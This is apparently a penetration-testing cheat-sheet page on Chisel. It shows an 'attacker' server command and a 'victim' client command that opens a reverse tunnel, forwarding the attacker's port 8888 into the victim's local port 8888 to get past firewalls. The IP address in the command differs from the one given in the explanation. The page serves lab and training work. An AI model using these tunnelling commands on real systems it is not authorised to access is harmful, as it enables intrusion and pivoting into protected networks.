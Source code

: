```yaml
---
description: Create Tunnel and Forward port using Chisel.
---
```


# Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

We start by starting a chisel server on the attacker that will be listening on port 8000.

```bash
# Attacker
./chisel server -p 8000 --reverse
```

On the victim, we upload chisel binary and execute it in client mode. We follow this pattern to build our command: `<local-host>:<local-port>:<remote-host>:<remote-port>`

```bash
# Victim
.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888
```

Explaining arguments:

* **10.10.16.6:8000** : attacker IP and the chisel server port
* **R:8888:localhost:8888** :
  * **R** : indicate that we want to listen on the remote host (attacker)
  * **8888** : open a listener on port 8888 of the attacker
  * **localhost** : all traffic are forwarded to localhost... (victim)
  * **8888** : ... on port 8888 of the victim

This command will create a tunnel. This tunnel allows us to forward all traffic sending to port 8888 of attacker (my computer) to port 8888 of the victim.

> **Github:** https://github.com/jpillora/chisel
